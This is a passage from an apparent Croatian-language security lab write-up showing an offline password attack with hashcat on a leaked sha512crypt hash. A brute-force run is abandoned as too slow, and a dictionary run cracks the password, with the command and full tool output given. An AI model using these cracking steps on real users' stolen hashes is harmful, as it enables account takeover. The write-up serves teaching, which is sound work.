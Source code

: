 - sada imamo pristup *hashiranim* lozinkama korisnika i možemo raditi offline napad

---

### Offline Password Guessing

Pomoću alata *hashcat* želimo iz *hash* vrijednosti *passworda* dobiti izvorni *password*. *Passwordi* su *hashirani* na način da je prvo definirana *hash* funckija koja se koristi, zatim je navedena sol te na kraju sama *hash* vrijednost *passworda.*

- za početak ćemo pokušati koristit brute force napad

```bash
Session..........: hashcat
Status...........: Running
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$LeNF/QHW1ojBCFmz$Ykeu3MLee/ITjHX9mY9rjJ/eRBJj7Bf...U8ABo1
Time.Started.....: Mon Dec 20 17:01:51 2021 (1 min, 20 secs)
Time.Estimated...: Sun Jan 16 12:56:20 2022 (26 days, 19 hours)
Guess.Mask.......: ?l?l?l?l?l?l [6]
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:      133 H/s (10.37ms)
Recovered........: 0/1 (0.00%) Digests, 0/1 (0.00%) Salts
Progress.........: 10560/308915776 (0.00%)
Rejected.........: 0/10560 (0.00%)
Restore.Point....: 320/11881376 (0.00%)
Candidates.#1....: fnffie -> fyiner
HWMon.Dev.#1.....: N/A
```

- na ovaj način bi sigurno otkrili *password* međutim za to bi nam trebalo 30ak dana, a mi nemamo toliko vremena
- sada ćemo koristiti već sastavljeni *dictionary* za ovaj offline napad → `hashcat --force -m 1800 -a 0 hash.txt dictionary/g2/dictionary_offline.txt -- status --status-timer 10`
- u datoteci hash.txt nalazi se *hash* vrijednost iz koje želimo otkriti *password*

```bash
$6$LeNF/QHW1ojBCFmz$Ykeu3MLee/ITjHX9mY9rjJ/eRBJj7BfOEe0FtBUOoWjZmnZoH23dPbs6viRme6.fniNmM5P.68WZqdKnU8ABo1:finoou

Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$LeNF/QHW1ojBCFmz$Ykeu3MLee/ITjHX9mY9rjJ/eRBJj7Bf...U8ABo1
Time.Started.....: Mon Dec 20 17:07:07 2021 (6 mins, 3 secs)
Time.Estimated...: Mon Dec 20 17:13:10 2021 (0 secs)
Guess.Base.......: File (dictionary/g2/dictionary_offline.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:      114 H/s (11.01ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 45440/50072 (90.75%)
Rejected.........: 0/45440 (0.00%)
Restore.Point....: 45312/50072 (90.49%)
Candidates.#1....: finoou -> kekntj
HWMon.Dev.#1.....: N/A

Started: Mon Dec 20 17:07:06 2021
Stopped: Mon Dec 20 17:13:11 2021
```

